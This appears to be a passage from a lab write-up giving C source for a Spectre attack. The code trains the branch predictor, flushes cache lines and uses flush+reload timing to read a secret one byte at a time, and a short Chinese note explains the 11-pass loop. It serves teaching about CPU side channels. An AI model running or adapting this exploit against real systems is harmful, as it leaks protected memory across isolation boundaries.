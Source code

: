 ```c=
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t larger_x)
{
  int i;
  uint32_t s;
  volatile int z;
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  // Train the CPU to take the true branch inside victim().
  for (i = 0; i < 10; i++) {
    _mm_clflush(&buffer_size);
    for (z = 0; z < 100; z++) { }
    restrictedAccess(i);  
  }
  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  // Ask victim() to return the secret in out-of-order execution.
  for (z = 0; z < 100; z++) { }
  s = restrictedAccess(larger_x);
  array[s*4096 + DELTA] += 88;
}

int main() {
  for(int j=0;j<11;j++){
    int i;
    uint8_t s;
    size_t larger_x = (size_t)(secret-(char*)buffer)+j;
    flushSideChannel();
    for(i=0;i<256; i++) scores[i]=0; 
    for (i = 0; i < 1000; i++) {
      spectreAttack(larger_x);
      reloadSideChannelImproved();
    }
    int max = 0;
    for (i = 0; i < 256; i++){
     if(scores[max] < scores[i])  
       max = i;
    }
    printf("Reading secret value at %p = ", (void*)larger_x);
    printf("The  secret value is %d : %c\n", max,max);
    printf("The number of hits is %d\n", scores[max]);
  }
  return (0); 
}

```
![](https://i.imgur.com/wVk7rAV.png)
用for迴圈執行11次，每次access的記憶體位置都要+1
